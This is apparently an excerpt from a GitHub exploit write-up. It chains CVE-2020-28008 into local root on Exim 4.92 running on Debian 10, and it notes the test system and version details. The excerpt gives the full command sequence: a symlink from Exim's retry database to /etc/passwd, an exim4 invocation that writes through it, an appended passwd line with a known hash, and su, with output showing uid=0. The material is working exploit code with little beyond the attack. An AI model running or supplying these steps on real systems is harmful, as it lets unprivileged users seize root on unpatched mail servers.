 ## Chaining with CVE-2020-28008 LPE

```
$ /bin/bash
$ cd /var/spool/exim4/db
$ rm -f retry*
$ ln -s -f /etc/passwd retry.passwd
$ /usr/sbin/exim4 -odf -oep postmaster < /dev/null
$ # creds => pwner:pwner
$ echo 'pwner:$6$4KB5snZ5jevx6TFa$VNdvb49sUfHhAQeKCkbpGVDnHUbnNfbpFh.QVjwIqvGlYsyKp8yoYrAfNDcG0XdtoQ2vT9LQPLml6XmCaVCOX/:18757:0:99999:7:::' >> /etc/passwd
$ su -l pwner
 * Enter pass: pwner *
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

## System Information

The tests have been performed in a debian:

```
root@research:~# lsb_release -a
No LSB modules are available.
Distributor ID:	Debian
Description:	Debian GNU/Linux 10 (buster)
Release:	10
Codename:	buster
```

With exim version:

```
root@research:~# exim --version
Exim version 4.92 #7 built 06-May-2021 19:31:44
Copyright (c) University of Cambridge, 1995 - 2018
(c) The Exim Maintainers and contributors in ACKNOWLEDGMENTS file, 2007 - 2018
Berkeley DB: Berkeley DB 5.3.28: (September  9, 2013)
Support for: crypteq iconv() OpenSSL DANE DKIM DNSSEC Event OCSP PRDR TCP_Fast_Open
Lookups (built-in): lsearch wildlsearch nwildlsearch iplsearch cdb dbm dbmjz dbmnz dnsdb passwd
Authenticators: cram_md5 plaintext
Routers: accept dnslookup ipliteral manualroute queryprogram redirect
Transports: appendfile/maildir/mailstore autoreply lmtp pipe smtp
Fixed never_users: 0
Configure owner: 0:0
Size of off_t: 8
Configuration file is /var/lib/exim4/config.autogenerated
```

My Exim version is self-compiled, but replicating
compilation flags used on mainstream at debian.

Configuration is the same as the debian default plus some
minor changes maybe.
